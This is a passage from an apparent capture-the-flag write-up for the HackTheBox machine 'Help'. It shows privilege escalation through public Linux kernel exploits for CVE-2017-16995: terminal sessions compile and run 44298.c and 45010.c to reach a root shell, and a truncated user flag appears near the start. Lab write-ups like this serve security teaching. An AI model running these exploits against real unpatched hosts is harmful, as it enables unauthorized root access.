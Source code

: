 

I can also grab user.txt:



    help@help:/home/help$ cat user.txt
    bb8a7b36...



## Priv: help --\> root

### Enumeration

A simple `uname -a` shows the version of this host:



    help@help:/var/www.md/support/uploads/tickets$ uname -a
    Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux



Given that kernel is almost a year old, exploits might be in play.
Googling found two exploits that might work:

-   CVE-2017-16995 -
    [44298.c](https://www.exploit-db.com/exploits/44298) and
    [45010.c](https://www.exploit-db.com/exploits/45010)
-   CVE-2017-5899 -
    [exploit.sh](https://github.com/bcoles/local-exploits/blob/master/CVE-2017-5899/exploit.sh)

### Exploit

I'll download all three exploits, and serve them with
`python3 -m http.server 80` to move them to Help with `wget`.

I'm working out of `/dev/shm`. I'll compile and run the first, and get a
root shell:



    help@help:/dev/shm$ gcc -o a 44298.c 
    help@help:/dev/shm$ ./a
    task_struct = ffff880003596200
    uidptr = ffff880003cfcc04
    spawning root shell
    root@help:/dev/shm# id
    uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare),1000(help)



The second works as well:



    help@help:/dev/shm$ gcc -o a 45010.c 
    help@help:/dev/shm$ ./a
    [.] 
    [.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
    [.] 
    [.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
    [.] 
    [*] creating bpf map
    [*] sneaking evil bpf past the verifier
    [*] creating socketpair()
    [*] attaching bpf backdoor to socket
    [*] skbuff => ffff8800050ecb00
    [*] Leaking sock struct from ffff88003b3e9000
    [*] Sock->sk_rcvtimeo at offset 472
    [*] Cred structure at ffff88000898bbc0